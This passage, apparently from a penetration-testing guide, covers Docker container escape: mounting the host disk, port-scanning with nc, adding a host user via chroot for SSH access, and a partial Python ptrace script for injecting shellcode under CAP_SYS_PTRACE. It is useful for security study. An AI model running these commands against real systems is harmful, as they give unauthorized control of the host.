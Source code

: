 * **Full access**

In the previous method we managed to access the docker host disk.\
In case you find that the host is running an **ssh** server, you could **create a user inside the docker host** disk and access it via SSH:

```bash
#Like in the example before, the first step is to moun the dosker host disk
fdisk -l
mount /dev/sda /mnt/

#Then, search for open ports inside the docker host
nc -v -n -w2 -z 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 2222 (?) open

#Finally, create a new user inside the docker host and use it to access via SSH
chroot /mnt/ adduser john
ssh john@172.17.0.1 -p 2222
```

### CAP\_SYS\_PTRACE

**This means that you can escape the container by injecting a shellcode inside some process running inside the host.** To access processes running inside the host the container needs to be run at least with **`--pid=host`**.

#### Example with binary

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_ptrace+ep
```

```python
import ctypes
import sys
import struct
# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html
PTRACE_POKETEXT = 4
PTRACE_GETREGS = 12
PTRACE_SETREGS = 13
PTRACE_ATTACH = 16
PTRACE_DETACH = 17
# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct
class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
```